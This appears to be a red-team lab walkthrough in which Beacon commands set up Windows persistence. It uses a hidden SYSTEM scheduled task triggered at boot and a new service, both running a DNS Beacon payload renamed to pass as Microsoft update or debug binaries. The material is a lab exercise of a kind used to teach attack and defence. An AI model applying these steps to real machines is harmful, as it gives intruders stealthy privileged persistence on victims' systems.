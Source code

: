 # Kill Chain

## Task Scheduler <a href="#task-scheduler" id="task-scheduler"></a>

1.  Save the following XML template to the Attacker Desktop (e.g. C:\Payloads\task.xml)

    ```xml
    xmlTypeCopy<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
    <Triggers>
        <BootTrigger>
            <Enabled>true</Enabled>
        </BootTrigger>
    </Triggers>
    <Principals>
        <Principal>
            <UserId>NT AUTHORITY\SYSTEM</UserId>
            <RunLevel>HighestAvailable</RunLevel>
        </Principal>
    </Principals>
    <Settings>
        <AllowStartOnDemand>true</AllowStartOnDemand>
        <Enabled>true</Enabled>
        <Hidden>true</Hidden>
    </Settings>
    <Actions>
        <Exec>
            <Command>"C:\Program Files\Microsoft Update Health Tools\updater.exe"</Command>
        </Exec>
    </Actions>
    </Task>
    ```
2. Change Beacon's current working directory.
   1. `cd C:\Program Files\Microsoft Update Health Tools`
3. Upload a DNS Beacon payload.
   1. `upload C:\Payloads\dns_x64.exe`
4. Rename the payload to something you think will help it to blend in.
   1. `mv dns_x64.exe updater.exe`
5.  Create the scheduled task.

    1. `schtaskscreate \Microsoft\Windows\WindowsUpdate\Updater XML CREATE`

    > A file dialogue window will appear for you to select the XML file.
6. Reboot [Workstation 1](https://labclient.labondemand.com/Instructions/cbc22f70-24db-45fb-ad52-3b45cf669430) and a new SYSTEM Beacon should appear.
7. Delete the task.
   1. `schtasksdelete \Microsoft\Windows\WindowsUpdate\Updater TASK`

## Windows Services <a href="#windows-services" id="windows-services"></a>

1. Change Beacon's current working directory.
   1. `cd C:\Windows\System32`
2. Upload a DNS Beacon service payload.
   1. `upload C:\Payloads\dns_x64.svc.exe`
3. Rename the payload to something you think will help it to blend in.
   1. `mv dns_x64.svc.exe debug_svc.exe`
4. Create the service.
   1. `sc_create dbgsvc "Debug Service" C:\Windows\System32\debug_svc.exe "Windows Debug Service" 0 2 3`
5. Reboot [Workstation 1](https://labclient.labondemand.com/Instructions/cbc22f70-24db-45fb-ad52-3b45cf669430) and a new SYSTEM Beacon should appear.
6. Delete the service.
   1. `sc_delete dbgsvc`
